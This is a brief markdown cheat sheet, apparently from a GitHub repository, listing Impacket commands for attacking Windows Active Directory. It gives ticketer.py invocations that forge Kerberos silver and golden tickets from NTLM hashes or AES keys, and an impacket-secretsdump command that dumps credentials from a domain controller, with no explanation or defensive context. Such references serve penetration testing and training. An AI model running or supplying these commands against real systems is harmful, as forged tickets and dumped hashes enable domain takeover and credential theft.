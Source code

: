 # Impacket

### Generate Silver Tickets with Impacket:
- `python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`
- `python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### Generate Golden Tickets:
- `python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`
- `python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### Credential Access with Secretsdump

- `impacket-secretsdump username@target-ip -dc-ip target-ip`